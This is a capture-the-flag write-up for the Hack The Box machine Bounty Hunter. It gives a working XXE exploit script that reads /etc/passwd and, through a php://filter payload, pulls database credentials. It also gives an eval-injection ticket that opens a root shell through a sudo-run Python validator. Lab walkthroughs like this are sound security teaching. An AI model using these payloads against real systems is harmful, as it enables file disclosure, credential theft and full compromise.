

# Writeup for [Bounty Hunter](https://app.hackthebox.eu/machines/BountyHunter) from [Hack The Box](https://app.hackthebox.eu/)

## Table of Contents

<!-- MarkdownTOC -->

- [Machine Information](#machine-information)
- [Information Gathering and Enumeration](#information-gathering-and-enumeration)
- [Exploitation](#exploitation)
- [Privilege Escalation](#privilege-escalation)
	- [Creating The Ticket](#creating-the-ticket)
		- [Main Function](#main-function)
		- [Load File Function](#load-file-function)
		- [Evaluate Function](#evaluate-function)
			- [Line 15 - 24](#line-15---24)
			- [Line 25 - 27](#line-25---27)
			- [BREAKPOINT](#breakpoint)
			- [Line 29 - 32](#line-29---32)
			- [Line 33 - 34](#line-33---34)
			- [FINAL TICKET](#final-ticket)

<!-- /MarkdownTOC -->


## Machine Information

* OS		 : Linux
* Difficulty : Easy
* Points	 : 20
* IP		 : 10.10.11.100

## Information Gathering and Enumeration

As always we start off with an nmap scan on the box.
```bash
nmap -sCV -oN nmap/bounty_hunter -vv 10.10.11.100
```

We see the classic SSH on 22 and HTTP on 80, meaning we should start enumerating that HTTP server ASAP.

We are greeted with a nice looking web page with some deadlinks apart from `portal` in the navbar.

If we hover over `portal`, we can see in the bottom left of the browser that it redirects us to `10.10.11.100/portal.php`. So we can probably assume that this is a PHP site. We can further confirm this by going to `http://10.10.11.100/index.php` that will give us the same landing page.


Knowing the site is PHP, we can run `gobuster` with the extensions flag to potentially grab files and directories present in the web server.

```bash
gobuster dir -u 10.10.11.100 -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -t 20 -o gobuster/raft-small-root.log -x php
```

While gobuster is running in the background, let's start poking at this `portal.php` page that we found earlier.


We get a redirect to `log_submit.php`.

Here we see bounty report system.


Everytime I see a submit button on a page, I always check for traffic on that page. We can view the network traffic of that page by hitting <kbd>F12</kbd> on your keyboard and navigating to the `Network` tab.

Filling in the forms with random values and submitting, we can see that this page is doing a `POST` request to `http://10.10.11.100/tracker_diRbPr00f314.php` with something that looks like `base64` encoded data on the request.


Decoding the `base64` value, we get an XML formatted output.


This may indicate an [XXE](https://portswigger.net/web-security/xxe) vulnerability that we can exploit.

## Exploitation

Now that we have a potential exploit, let's write a python script to automate this task. I learned about XXE from [this](https://portswigger.net/web-security/xxe) post by [Port Swigger](https://portswigger.net/) that I highly recommend to read for a deep dive into XXE injections. 

```python
#!/usr/bin/env python3

import requests
import base64

# page to do a request on
host = 'http://10.10.11.100/tracker_diRbPr00f314.php'

exploit = "file:///etc/passwd"

# always make stuff as identical as possible to avoid unwanted problems.
payload = f"""<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "{exploit}"> ]>
<bugreport>
<title>XXE</title>
<cwe>INJECTION</cwe>
<cvss>FOUND</cvss>
<reward>&xxe;</reward>
</bugreport>
"""

# Do a post request on the page, with base64 encoded "data" parameter
r = requests.post(host , data= {"data" : base64.b64encode(payload.encode())})
print(r.text)
```

This script will basically try to create an external entity called `xxe` which in this case will try to read the `/etc/passwd` file. We will then call this external entity on the `<reward>` tag with `&xxe;`.

Run the script and we get `/etc/passwd` on the `reward` tag as expected.


Grepping for anything that ends with `sh` by running;
```bash
python3 xxe.py | grep "sh$"
```

We can see that we have a `development` user on the box. Good to keep in mind.

Now going back to that `gobuster` scan we did earlier, we see a `db.php` file.

Trying to read the `db.php` file by changing the `exploit` variable on the script to `file://db.php` did not work.

I then went to [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) repo to find some payloads on XXE and got this entry; 

```xml
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
```
We wrap the `index.php` file that we are trying to read with a PHP filter to encode it in `base64` before it is outputed.

Our script should now look like this.

```python
#!/usr/bin/env python3

import requests
import base64

host = 'http://10.10.11.100/tracker_diRbPr00f314.php'

# We are trying to read db.php file using a php filter to convert file
# into base64 encoded string.
exploit = "php://filter/convert.base64-encode/resource=db.php"

payload = f"""<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "{exploit}"> ]>
<bugreport>
<title>XXE</title>
<cwe>INJECTION</cwe>
<cvss>FOUND</cvss>
<reward>&xxe;</reward>
</bugreport>
"""

r = requests.post(host , data= {"data" : base64.b64encode(payload.encode())})
print(r.text)
```

Now if we run the script, we get a `base64` string and when decoded we get database credentials.

Remember that we saw `development` as a user on the box from `/etc/passwd`, we can try to ssh as `development` with the password that we found.

```bash
ssh development@10.10.11.100
```

## Privilege Escalation

Now that we are in as `development` we **ALWAYS** check for sudo permissions with `sudo -l`


Looks like we can run `python` on this file as root without a password.

I chose to transfer this file to my local machine for easier inspection.

```bash
scp development@10.10.11.100:/opt/skytrain_inc/ticketValidator.py .
```

Inspecting the file, it looks like a pretty straight forward python script. Doing a quick read of the script, we see on line 34 a dangerous piece of code. We see it running the `eval` function on python that will interpret strings passed in as code and execute it.

All we need to do is to pass all those checks and get to that block of code. We're going to run all this tests on our local machine first, and then transfer the end ticket to the remote box.

### Creating The Ticket

#### Main Function
This function is what gets executed, and it simply takes user input on what file to read, passes it to the `load_file` function and if it passes, it will get passed to the `evaluate` function and check if it is a valid ticket or not

#### Load File Function
This function is really straight forward, it simply checks whether or not the file ends with `.md`. If it does, it will open it and if not it will quit the program

#### Evaluate Function

This function is a tough one since it goes through a lot of checks. This will iterate through all the lines in the ticket, storing the the index as `i` and the line itself as `x`.

##### Line 15 - 24
The first 2 if blocks simply check if the **first line** ( i == 0) starts with the string `# Skytrain Inc`, if so then continue to the next iteration ( next line )

Checks if the **second line** ( i == 1 ) starts with the string `## Ticket to `, if so continue to next iteration.

##### Line 25 - 27
The third if block checks if the next line ( third line ) starts with the string `__Ticket Code:__`, if so continue to next iteration.

##### BREAKPOINT
Based on the first 3 if blocks, our ticket will look like this.

```text
# Skytrain Inc
## Ticket to Root Shell
__Ticket Code:__
```

##### Line 29 - 32
The fourth if block will check if `code_line` is set to a value and the current iteration is the current `code_line` variable. ( This is true if we have succeeded the previous if blocks ).

It will check if the line starts with `**`, if so
it will then replace all `**` strings to become empty strings, split the string on `+` into a list/array and then get the first element of that list and store it in the `ticketCode` variable.

##### Line 33 - 34
We are checking if the integer representation of the `ticketCode` variable modulus 7 will result in 4.

If so then we run the `eval` function.

We can be sure that the `ticketCode` variable can be 4, because `4 % 7` will result in 4.

Since the `**` string will be replaced with an empty string, and we know it will evaluate what we pass it in as python code, we can craft the fourth line.

```text
**4+exec('print("CODE EXEC")')
```

This will then turn into `eval(4+exec('print("CODE EXEC")'`


##### FINAL TICKET
```text
# Skytrain Inc
## Ticket to Root Shell
__Ticket Code:__
**4+exec('print("CODE EXEC")')
```



We got code execution, all we need to do now is edit the ticket a little to give us a root shell and transfer it to the remote box.

```text
# Skytrain Inc
## Ticket to Root Shell
__Ticket Code:__
**4+exec('import os; os.system("/bin/bash")')
```

```bash
scp poc.md development@10.10.11.100:/dev/shm/root.md
```


Now we just execute the script on the remote machine with sudo.

```bash
sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```

